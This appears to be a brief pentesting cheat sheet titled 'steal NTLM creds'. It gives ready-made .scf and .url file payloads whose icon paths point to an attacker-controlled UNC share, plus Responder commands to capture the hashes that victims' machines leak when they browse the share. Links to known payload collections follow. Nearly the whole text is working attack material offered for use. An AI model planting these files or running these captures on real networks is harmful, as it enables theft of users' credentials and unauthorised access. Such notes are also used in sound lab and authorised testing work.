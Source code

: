 # steal NTLM creds

## .scf file

```bash
[Shell]
Command=2
IconFile=\\IP\drive\kashz.ico
[Taskbar]
Command=ToggleDesktop
```

Use responder to capture hash `sudo responder -wrf --lm -v -I tun0`

## url file

Filename has to be `@kashz.url` or `~kashz.url`

```bash
[InternetShortcut]
URL=kashz
WorkingDirectory=kashz
IconFile=\\IP\%USERNAME%.icon
IconIndex=1
```

Use responder to capture hash `sudo responder -v -I tun0`

## More Ways

* [PayloadsAllTheThings/ActiveDirectoryAttack.md#scf-and-url-file-attack-against-writeable-share](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share)
* [Hacktricks.xyz/places-to-steal-ntlm-creds](https://book.hacktricks.xyz/windows/ntlm/places-to-steal-ntlm-creds)
